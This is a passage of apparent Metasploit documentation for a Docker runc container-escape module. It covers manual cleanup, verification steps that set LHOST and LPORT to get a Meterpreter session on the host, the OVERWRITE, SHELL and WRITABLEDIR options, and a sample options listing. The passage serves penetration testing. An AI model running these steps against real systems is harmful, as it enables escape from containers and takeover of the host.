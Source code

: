 #### shell
The shell binary inside the container (set by the `OVERWRITE` option) will also
be overwritten. However, the module makes a backup prior to the overwrite and
restores it automatically. This process is relatively safe, but something can
still go wrong along the way. Again, this will need to be done manually, using
the information displayed during the module execution:
```
cp <path to the shell binary backup> <path to the shell binary>
```

## Verification Steps
1. Install Docker (see [Installation](#installation))
1. Start msfconsole
1. Get a session as root inside a Docker container
1. Do: `use linux/local/docker_runc_escape`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `set session <session nb>`
1. Do: `run`
1. On the host target, run `docker exec -ti <container_id> /bin/sh`
1. You should get a Meterpreter session.
1. Verify you escaped the Docker container
1. Verify `WRITABLEDIR` on the host is empty (cleanup successful)
1. Verify `docker-runc` has been restored by running `docker-runc --version`

## Options

### OVERWRITE

The shell that is going to be overwritten with `#!/proc/self/exe`. This will be
triggered by a user running `docker exec -ti <container_id> <overwritten
shell>`. Default is `/bin/sh`.

### SHELL

The shell the module will use in scripts (must be different than `OVERWRITE`
shell). During the execution, some shell script have to be executed in the
Docker container. Since the main `OVERWRITE` shell has been overwritten,
another shell must be used. Default is `/bin/bash`.

### WRITABLEDIR

A directory where you can write files. Default is `/tmp`.

## Scenarios

## Docker version 18.03.1-ce (build 9ee9f40) on Ubuntu 18.04.5 LTS
```
msf exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


```